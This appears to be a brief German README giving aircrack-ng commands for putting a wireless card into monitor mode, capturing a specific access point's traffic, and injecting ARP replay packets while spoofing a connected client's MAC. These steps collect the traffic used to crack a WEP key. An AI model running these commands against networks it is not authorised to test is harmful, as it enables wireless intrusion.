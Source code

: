 1) Monitor Mode deaktivieren sofern dieser an ist:
```
airmon-ng stop mon0
airmon-ng stop wlan0
```
2) Monitor Mode auf `wlan0` Kanal `6` aktivieren, dadurch wird automatisch das Interface `mon0` erstellt:
```
airmon-ng start wlan0 6
```
3) mit `airodump-ng` Pakete mitschneiden. `00:1E:58:FF:F5:D5` ist die MAC Adresse des Accesspoints
```
airodump-ng -c 6 --bssid 00:1E:58:FF:F5:D5 -w output mon0
```
4) WÄHREND der Aufzeichnung mit `aireplay-ng` zusätzliche ARP Pakete generieren. `00:1E:58:FF:F5:D5` ist die MAC Adresse des Accesspoints, `C4:85:08:0F:73:1E` ist die MAC Adresse eines am Router angemeldeten Clients
```
aireplay-ng -3 -b 00:1E:58:FF:F5:D5 -h C4:85:08:0F:73:1E mon0
```
5) Wenn genung Traffic Aufgezeichnet wurde, `airodump-ng` und `aireplay-ng` beenden, Monitor Mode wieder deaktivieren:
```
airmon-ng stop mon0
airmon-ng stop wlan0
```

